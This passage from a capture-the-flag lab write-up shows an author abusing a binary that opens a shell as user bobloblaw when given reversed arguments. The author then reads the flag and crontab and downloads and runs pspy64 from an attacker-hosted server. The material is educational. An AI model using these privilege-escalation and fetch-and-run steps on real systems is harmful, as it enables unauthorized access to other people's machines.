 * We can see the program launches a shell for user-id 1000 (which is bobloblaw) when a certain condition is fulfilled.

* We can try to understand what this program is doing with the help of [ChatGPT](https://chatgpt.com) (I asked ChatGPT to explain the C code):

  * the ```main``` function takes two arguments ```param_1``` & ```param_2```
  * program first check is ```param_1``` is not equal to 7; if it's less than or greater than 7, it prints "Order my blogs!" and exits
  * if ```param_1``` is equal to 7, it enters an ```else``` block
  * inside ```else``` block, ```local_c``` variable is initialized to 1, and there is a ```while``` loop that iterates while ```local_c``` is less than 7
  * with each iteration, ```atoi``` converts value at ```param_2 + (long)local_c * 8``` to an integer
  * this indicates the program expects 6 more command-line arguments after the initial argument
  * it then checks if the converted integer is equal to ```7 - local_c```
  * if the checks pass, it changes the effective user and group ID to 1000, and executes ```/bin/sh```
  * so the first argument needs to be 7, followed by 1 to 6, but in reverse-order

* Following the analysis given by ChatGPT, we can execute the binary in our reverse shell like this:

  ```sh
  /usr/bin/blogFeedback 7 6 5 4 3 2 1

  /usr/bin/blogFeedback 6 5 4 3 2 1
  # this works and we get a shell

  id
  # bobloblaw

  cd /home/bobloblaw

  ls -la
  # enumerate the directories

  cat Documents/user.txt

  # we have a binary here

  # from linpeas, cronjob was also enumerated which mentioned this binary

  cat /etc/crontab
  ```

* Now, the cronjob does mention a wildcard character with ```tar```, but it cannot be exploited since we do not have required permissions for the given hidden directory

* We can check with ```pspy``` for any processes that run regularly to print the message that pops up every minute:

  ```sh
  # on attacker machine, host the file

  # fetch the file in reverse shell
  cd /tmp

  wget http://10.10.67.222:8000/pspy64

  chmod +x pspy64

  ./pspy64
  ```
